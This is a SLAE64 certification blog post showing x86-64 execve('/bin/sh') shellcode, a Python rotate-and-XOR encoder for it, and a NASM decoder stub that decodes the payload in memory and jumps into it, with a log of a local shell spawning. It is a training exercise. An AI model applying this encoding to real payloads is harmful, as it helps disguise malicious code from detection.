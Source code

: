 
# SLAE Assignment #4

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online‐courses/securitytube-linux-assembly-expert/

Student ID: SLAE64 - 1525

## Assignment

* Create a custom encoding scheme like the "Insertion Encoder" we showed you 
* PoC with using execve-stack as the shellcode to encode with your schema and execute

## Theoretical description

Starting from 0xaa every next byte is rotated by 3 and xor encoded with the previous byte, creating a kind of encrypting chain

## Implementation

The implementation starts with shellcode extraction for the execve-stack

### Opcode extraction

The already written assembler code that execute a shell (execve-stack) is the following

```
; Filename: execve-nasm.nasm
; Author:  SLAE64 - 1525
;
; Purpose: execute /bin/sh
BITS 64

global _start

section .text

; settings
SH equ 0x68732f6e69622f2f

; syscall kernel opcodes
SYS_EXECVE equ 0x3b

_start:
    xor rax, rax
    push rax
    pop rdx         
    push rdx
    mov rbx, SH ; build //bin/sh
    push rbx ; copy ¨//bin/sh¨ string to stack
    mov rdi, rsp ; get the address for /bin/sh string
    push rax ; build args array, by pushing NULL
    push rdi ; then pushing string address
    mov rsi, rsp ; args array address
	push SYS_EXECVE
    pop rax
    syscall
```

let's extract the shellcode in the usual way with the aid of the following helper script:

```
#!/bin/bash

echo '######### NASM #########'

echo '[+] Assembling with Nasm ... '
nasm -f elf64 -o decoder.template.nasm.o decoder.template.nasm
echo '[+] Done!'

echo '[+] Linking ...'
ld -z execstack -o decoder.template.nasm.bin decoder.template.nasm.o
echo '[+] Done!'

rm -rf decoder.template.nasm.o

echo '[+] Objdump ...'
mycode=`objdump -d ./decoder.template.nasm.bin |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\\x/g'|paste -d '' -s |sed 's/^/"/' | sed 's/$/"/g'`
echo $mycode
```

Let's execute it

```
$ ./compile-execve-stack.sh 
######### NASM #########
[+] Assembling with Nasm ... 
[+] Done!
[+] Linking ...
[+] Done!
[+] Objdump ...
"\x48\x31\xc0\x50\x5a\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x6a\x3b\x58\x0f\x05"
```

Hence the shellcode is the following:

```
\x48\x31\xc0\x50\x5a\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x6a\x3b\x58\x0f\x05
```

### Custom python encoder

Here follows the python encoder, it takes as input a shellcode and generate the corresponding encoded one to prepend before the decoding stub:

```python
#!/usr/bin/env python
# Python Custom Rotating - Xor Encoder
# Author: SLAE64 - 1525

shellcode = '\x48\x31\xc0\x50\x5a\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x6a\x3b\x58\x0f\x05'
rotation = 3

encoded = ""
encoded2 = ""

print('Encoded shellcode ...')

# Initialized with 0xaa
previous_byte = 0xaa

for x in bytearray(shellcode):
    # rotate left with 3
    new_byte = 0
    new_byte = x << rotation
    y = (new_byte & 0xff) + (new_byte >> 8)
    # xor with the previous byte
    z = y ^ previous_byte
    previous_byte = x
    encoded += '\\x'
    encoded += '%02x' % z

    encoded2 += '0x'
    encoded2 += '%02x,' % z

print(encoded)
print(encoded2)
print('Len: ', len(bytearray(shellcode)))
```

## Decoder stub

here follows the assembler code of the decoder stub

```

; Filename: Decoder.nasm
; Author:  SLAE64 - 1525
;
; Purpose: decode bytecode with progressive xor

BITS 64

global _start

section .data ; read/write

EncodedShellcode db 0xe8,0xc1,0x37,0x42,0x82,0xc8,0x10,0x95,0xc2,0x56,0x3c,0x29,0x1a,0x17,0xb4,0x30,0xf2,0x11,0x04,0xb6,0x65,0xea,0x15,0x04,0xbe,0xb5,0xb3,0xf9,0x20,0x27
EncodedShellcodeLenght equ $-EncodedShellcode

section .text ; readonly

InitialXORValue equ 0xaa

_start:

decoder:
	lea rdi, [rel EncodedShellcode]

	push EncodedShellcodeLenght ; shellcode lenght
	pop rcx
	
    push InitialXORValue ; initial value of XOR operation
    pop rdx

decode:
	xor dl, byte [rdi]  ; xor with the current byte
	ror dl, 3           ; rotate right with 3
	mov [rdi], dl  ; save back the transformed byte
	inc rdi
	loop decode

	jmp EncodedShellcode ; jump to the original shellcode now decoded

```

## Proof of execution

Once executed the shellcode leads to the following

```
$ ./compile-decoder-template.sh 
######### NASM #########
[+] Assembling with Nasm ... 
[+] Done!
[+] Linking ...
[+] Done!
[+] Objdump ...
"\x48\x8d\x3d\x1d\x00\x20\x00\x6a\x1e\x59\x68\xaa\x00\x00\x00\x5a\x32\x17\xc0\xca\x03\x88\x17\x48\xff\xc7\xe2\xf4\xe9\x03\x00\x20\x00"
$ ./decoder.template.nasm.bin 
$ id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant)
$ 

```